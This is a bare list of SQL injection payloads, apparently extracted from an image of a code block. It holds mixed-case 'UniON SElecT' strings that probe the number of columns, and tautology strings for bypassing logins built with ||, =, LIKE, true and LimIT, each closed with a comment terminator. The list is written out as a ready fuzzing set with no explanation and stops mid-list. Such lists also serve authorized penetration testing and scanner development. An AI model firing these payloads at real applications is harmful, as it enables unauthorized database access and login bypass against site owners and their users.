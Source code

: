 ```
" UniON SElecT 1,2,3,4,5-- 2
" UniON SElecT 1,2#
" UniON SElecT 1,2,3#
" UniON SElecT 1,2,3,4#
" UniON SElecT 1,2,3,4,5#
"UniON(SElecT(1),2)-- 2
"UniON(SElecT(1),2,3)-- 2
"UniON(SElecT(1),2,3,4)-- 2
"UniON(SElecT(1),2,3,4,5)-- 2
"UniON(SElecT(1),2)#
"UniON(SElecT(1),2,3)#
"UniON(SElecT(1),2,3,4)#
"UniON(SElecT(1),2,3,4,5)#
'||'2
'||2-- 2
'||'2'||'
'||2#
'||2/*
'||2||'
"||"2
"||2-- 2
"||"2"||"
"||2#
"||2/*
"||2||"
'||'2'='2
'||'2'='2'||'
'||2=2-- 2
'||2=2#
'||2=2/*
'||2=2||'
"||"2"="2
"||"2"="2"||"
"||2=2-- 2
"||2=2#
"||2=2/*
"||2=2||"
'||2=(2)LimIT(1)-- 2
'||2=(2)LimIT(1)#
'||2=(2)LimIT(1)/*
"||2=(2)LimIT(1)-- 2
"||2=(2)LimIT(1)#
"||2=(2)LimIT(1)/*
'||true-- 2
'||true#
'||true/*
'||true||'
"||true-- 2
"||true#
"||true/*
"||true||"
'||'2'LiKE'2
'||'2'LiKE'2'-- 2
'||'2'LiKE'2'#
'||'2'LiKE'2'/*
'||'2'LiKE'2'||'
'||(2)LiKE(2)-- 2
'||(2)LiKE(2)#
'||(2)LiKE(2)/*
'||(2)LiKE(2)||'
"||"2"LiKE"2
"||"2"LiKE"2"-- 2
"||"2"LiKE"2"#
```